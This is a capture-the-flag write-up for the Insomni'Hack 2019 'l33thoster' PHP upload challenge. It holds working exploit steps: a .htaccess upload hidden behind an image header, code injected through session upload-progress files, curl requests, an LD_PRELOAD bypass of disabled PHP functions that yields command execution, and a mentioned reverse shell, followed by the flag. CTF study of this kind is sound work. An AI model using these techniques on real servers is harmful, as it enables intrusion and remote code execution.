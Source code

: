 ```yaml
---
layout: post
title: Insomni'Hack teaser 2019 l33thoster writeup
tags: web, ctf, rce, insomnihack
---
```


# Description
You can host your l33t pictures <a href="http://http://35.246.234.136/">here</a>.

# The Challenge
This challenge was a PHP challenge that allowed users to upload files in custom folder, the source code was given :
```php
<?php
if (isset($_GET["source"])) 
    die(highlight_file(__FILE__));

session_start();

if (!isset($_SESSION["home"])) {
    $_SESSION["home"] = bin2hex(random_bytes(20));
}
$userdir = "images/{$_SESSION["home"]}/";
if (!file_exists($userdir)) {
    mkdir($userdir);
}

$disallowed_ext = array(
    "php",
    "php3",
    "php4",
    "php5",
    "php7",
    "pht",
    "phtm",
    "phtml",
    "phar",
    "phps",
);


if (isset($_POST["upload"])) {
    if ($_FILES['image']['error'] !== UPLOAD_ERR_OK) {
        die("yuuuge fail");
    }

    $tmp_name = $_FILES["image"]["tmp_name"];
    $name = $_FILES["image"]["name"];
    $parts = explode(".", $name);
    $ext = array_pop($parts);

    if (empty($parts[0])) {
        array_shift($parts);
    }

    if (count($parts) === 0) {
        die("lol filename is empty");
    }

    if (in_array($ext, $disallowed_ext, TRUE)) {
        die("lol nice try, but im not stupid dude...");
    }

    $image = file_get_contents($tmp_name);
    if (mb_strpos($image, "<?") !== FALSE) {
        die("why would you need php in a pic.....");
    }

    if (!exif_imagetype($tmp_name)) {
        die("not an image.");
    }

    $image_size = getimagesize($tmp_name);
    if ($image_size[0] !== 1337 || $image_size[1] !== 1337) {
        die("lol noob, your pic is not l33t enough");
    }

    $name = implode(".", $parts);
    move_uploaded_file($tmp_name, $userdir . $name . "." . $ext);
}

echo "<h3>Your <a href=$userdir>files</a>:</h3><ul>";
foreach(glob($userdir . "*") as $file) {
    echo "<li><a href='$file'>$file</a></li>";
}
echo "</ul>";

?>

<h1>Upload your pics!</h1>
<form method="POST" action="?" enctype="multipart/form-data">
    <input type="file" name="image">
    <input type="submit" name=upload>
</form>
<!-- /?source -->
1
```	

## Ideas

My first thought was that the extension check was done without case check so changing the case could work.

Also the challenge suggested we couldn't use php tags `<?`, and  we need to make the file look like an image (bypass `exif_imagetype`) with defined size `1337x1337` 

# Solving the challenge

The challenge is basically asking for a `.htaccess` upload while bypassing all restrictions, we need a valid image header that will not break `.htaccess` syntax, which is `wbmp` because it starts with a null byte and `.htaccess` will ignore that line, we craft our `.htaccess` file and add a directive to make our custom extension files be interpreted as `PHP`.
![screen1.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen1.png)
We do the same thing to upload our php file with the custom extension the content isn't important.
![screen2.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen2.png)

The next step is to edit `.htaccess` file and add two more directives, the first one is disable php session upload_progress cleanup, and the second one is append file which will be a custom session one.

![screen3.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen3.png)
Note that PHP_SESSION_UPLOAD_PROGRESS will create a session file for me, and disabling the cleanup will not remove my files so I don't need to do any kind of race conditions.

```sh
curl -vvv http://35.246.234.136/images/cce36633671a3a556973a0b2d3592fe4371a5bde/test.xyz -H 'Cookie: PHPSESSID=xyz' -F "PHP_SESSION_UPLOAD_PROGRESS=whatever" -F "file=@/etc/passwd"
```
Now requesting our `.xyz` file in the browser shows some serialized data with interested reflected values
![screen4.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen4.png)
so the file parameter is reflected here it's `file` and also whatever I put in PHP_SESSION_UPLOAD_PROGRESS, i'm gonna use one of them to inject my php code.
I'm going to intercept my curl request in burp and edit one of the parameters.
```sh
export http_proxy="http://127.0.0.1:8080/"
curl -vvv http://35.246.234.136/images/cce36633671a3a556973a0b2d3592fe4371a5bde/test.xyz -H 'Cookie: PHPSESSID=xyz' -F "PHP_SESSION_UPLOAD_PROGRESS=whatever" -F "file=@/etc/passwd"
```
![screen5.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen5.png)
I changed the PHPSESSID value because the old one wasn't deleted, so we need to use a new one, need to change it in `.htaccess` as well.
Let's request our file in the browser and enjoy RCE.
![screen6.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen6.png)
Trying various command execution functions results in nothing so we'd better check `phpinfo`
![screen8.png]({{ site.url }}/assets/2019-01-21-Insomni'Hack-l33thoster-Writeup/screen8.png)


It seems that `mail()` and `putenv()` aren't filtered, so we could overwrite `LD_PRELOAD` to our custom `.so` file and overwrite some function that mail calls.


I stumbeled across another problem of how to upload a valid `.so` file since we didn't have arbitrary upload , also `file_put_contents` and other file manipulation functions were filtered, the solution was to upload the file using our php script and `move_uploaded_file` function. 
_for more details about compiling and generating .so file please check https://corb3nik.github.io/blog/alictf-2016/homework_
```sh
curl -vvv 'http://35.246.234.136/images/cce36633671a3a556973a0b2d3592fe4371a5bde/test.xyz?0=move_uploaded_file($_FILES[%22image%22][%22tmp_name%22],%20%22/var/www/html/images/cce36633671a3a556973a0b2d3592fe4371a5bde/hack.so%22);' -F 'image=@hack.so' -g
```
Next we need to execute the following PHP code to get shell command execution.

```php
  echo putenv("LD_PRELOAD=/var/www/html/images/cce36633671a3a556973a0b2d3592fe4371a5bde/hack.so");
  echo putenv("exec=".$_GET['cmd']);
  echo mail("a", "a", "a");
  show_source("/tmp/out.txt");
```

I have used a perl payload to get reverse shell, the final step was to bypass the captcha  in the `get_flag` binary in an automated way , I have used `PHP` for this.

```php
<?php


        $descriptorspec = array(
           0 => array("pipe", "r"),  
           1 => array("pipe", "w"),  
           2 => array("file", "/tmp/error-output.txt", "a")
        );

        $cwd = '/';
        $env = array();

        $process = proc_open('/get_flag', $descriptorspec, $pipes, $cwd, $env);

        if (is_resource($process)) {

            $res = eval('return '.explode(":", fread($pipes[1], 1024))[1].';');

            fwrite($pipes[0], $res);
            close($pipes[0]);

            echo fread($pipes[1], 1024);

            echo fread($pipes[1], 1024);

            $return_value = proc_close($process);

        }
?>
```
```sh
$ php -f /tmp/file.php

INS{l33t_l33t_l33t_ich_hab_d1ch_li3b}
```
The flag is `INS{l33t_l33t_l33t_ich_hab_d1ch_li3b}`.